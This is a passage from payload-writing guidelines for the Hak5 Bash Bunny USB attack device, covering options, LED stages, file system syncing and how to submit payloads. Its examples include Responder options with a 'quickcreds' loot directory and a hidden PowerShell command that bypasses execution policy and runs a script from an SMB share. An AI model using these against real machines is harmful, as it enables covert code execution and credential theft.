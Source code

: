 * Configurable options should be specified in variables at the top of the payload.txt file
~~~~
# Options
RESPONDER_OPTIONS="-w -r -d -P"
LOOTDIR=/root/udisk/loot/quickcreds
~~~~

* LED should use common payload states rather than unique color/pattern combinations when possible.
* The LED command should preceed the ATTACKMODE command for various stages
* Stages should be documented with comments
~~~
######## HID STAGE ########
# Runs hidden powershell which executes \\172.16.64.1\s\s.ps1 when available
GET HOST_IP
LED STAGE1
ATTACKMODE HID
RUN WIN "powershell -WindowStyle Hidden -Exec Bypass \"while (\$true) { If (Test-Connection $HOST_IP -count 1) { \\\\$HOST_IP\\s\\s.ps1; exit } }\""
~~~

* Common payload states include a **SETUP**, with may include a **FAIL** if certain conditions are not met.
* This is typically followed by either a single **ATTACK** or multiple **STAGE**s.
* More complex payloads may include a **SPECIAL** function to wait until certain conditions are met.
* Payloads commonly end with a **CLEANUP** phase, such as moving and deleting files or stopping services.
* When the payload has **FINISH**ed, the Bash Bunny is safe to eject.
* These common payload states correspond to LED states.


## Working with the file system

The Bash Bunny contains a USB Mass Storage parition (also known as udisk) which is typically accessed via Arming Mode. This is the Bash Bunny flash drive to which payloads are copied.

When the Bash Bunny framework executes a payload, it will synchronize the USB Mass Storage partition file system once the payload completes. This can be either by an exit statement in the payload.txt, or when the Bunny Script reaches the end of file.

Keep this in mind as a payload which writes files to the USB Mass Storage partition within a loop will not have the opportunity to synchronize until the payload completes. This is why ending payloads with an LED FINISH command is advised. In this case, the payload developer is advised to use the sync command to ensure file synchronization is completed.

## Submitting Payloads

Payloads may be submitted to the [Bash Bunny Payload git repository](https://github.com/hak5/bashbunny-payloads "Bash Bunny Payload git repository"). For a video tutorial on submitting payloads, see [Hak5 episode 2126](https://www.hak5.org/episodes/season-21/hak5-2126-how-to-write-bash-bunny-payloads-contribute-on-github).
